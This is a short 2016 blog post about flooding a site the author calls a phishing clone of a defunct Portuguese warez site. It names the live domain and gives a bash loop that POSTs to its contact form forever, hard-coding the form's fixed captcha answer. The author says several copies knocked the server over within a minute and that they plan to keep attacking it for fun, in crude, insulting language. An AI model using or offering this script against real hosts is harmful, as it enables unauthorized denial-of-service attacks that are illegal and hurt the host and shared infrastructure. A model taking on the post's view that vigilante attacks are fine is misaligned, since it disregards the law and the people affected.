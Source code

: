 ```yaml
---
title:       "DDoS phishing site"
description: "How to DDoS a shitty phishing site run by idiots."
date:        "2016-01-03"
layout:      "post.hbs"
collection:  "blog"
---
```


[wareztugacontas.com](http://www.wareztugacontas.com/) is a currently active phishing site for the no longer existing wareztuga.tv, which was a Portuguese warez site that streamed movies and TV shows.

If you're so openly running a phishing site, at least put in the effort to avoid being DDoSed so easily. A security question in your form isn't going to stop anyone if the question is always the same (especially when the question is 3+1=?), you fucking idiot.

```bash
#! /usr/bin/env bash

while true; do
  curl --data "email=eat_shit_and_die&comments=eat_shit_and_die&verify=4" http://www.wareztugacontas.com/contact.php
done
```

This is a very basic classic HTTP flood attack in bash that will POST to the server forever, presumably hitting a database too.

I launched a few instances of the script on my laptop and the server at [wareztugacontas.com](http://www.wareztugacontas.com/) choked in less than a minute.

I realize this isn't the most righteous thing to do, but I'm gonna keep attacking it just for fun. Because, you know, who are they going to complain to about their illegal phishing site?
